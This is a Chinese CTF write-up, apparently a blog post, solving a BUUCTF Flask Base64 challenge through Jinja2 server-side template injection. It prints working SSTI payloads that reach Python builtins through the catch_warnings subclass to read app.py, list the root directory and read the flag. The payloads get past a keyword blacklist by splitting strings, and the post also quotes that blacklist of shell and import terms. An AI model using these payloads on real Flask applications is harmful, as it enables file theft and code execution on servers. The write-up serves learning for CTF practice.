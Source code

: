 ### 字符拼接绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b3eb55d0e0a243d4005cff.png)

打开网页是用 Flask 做的 Base64 加解密

![](https://pic1.imgdb.cn/item/67b3eb96d0e0a243d4005d0d.png)

测试 SSTI 注入

![](https://pic1.imgdb.cn/item/67b3edcbd0e0a243d4005e8d.png)

解密得到 7，说明解密处存在注入

![](https://pic1.imgdb.cn/item/67b3ed96d0e0a243d4005e59.png)

在解密处随便输入字符发现报错信息

![](https://pic1.imgdb.cn/item/67b3ee08d0e0a243d4005e99.png)

查看 decode() 函数发现有 waf

![](https://pic1.imgdb.cn/item/67b3ee77d0e0a243d4005ea9.png)

构造 payload 拿源码

```jinja2
[].__class__: 获取空列表的类，列表的类是 list
.__base__: 获取 list 类的基类，基类通常是 object
.__subclasses__(): 获取该类的所有子类
c.__name__: 这个属性返回类的名称
c.__init__: 获取 catch_warnings 类的构造方法（__init__）
.__globals__: 获取当前函数或方法的全局命名空间
['__builtins__']: 通过 __globals__ 字典访问 Python 内建模块 __builtins__
open('app.py', 'r').read(): 打开名为 app.py 的文件并读取其内容

{% for c in [].__class__.__base__.__subclasses__() %}
   {% if c.__name__=='catch_warnings' %}
    {{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}
   {% endif %}
{% endfor %}
```

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}
```

先加密

![](https://pic1.imgdb.cn/item/67b3f27bd0e0a243d4005f42.png)

解密拿到源码

![](https://pic1.imgdb.cn/item/67b3f29bd0e0a243d4005f4a.png)

关于 waf 代码如下

```
def waf(str):
      black_list = [&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;*&#34;,&#34;?&#34;]
  for x in black_list :
      if x in str.lower() :
      return 1
```

虽然过滤了很多，但是可以利用字符串拼接漏洞绕过

先查看目录

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
   {% if c.__name__=='catch_warnings' %}
    {{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/') }}
   {% endif %}
{% endfor %}
```

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}
```

![](https://pic1.imgdb.cn/item/67b3f43ad0e0a243d4005fb0.png)

构造 payload 拿到 flag

```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}
```
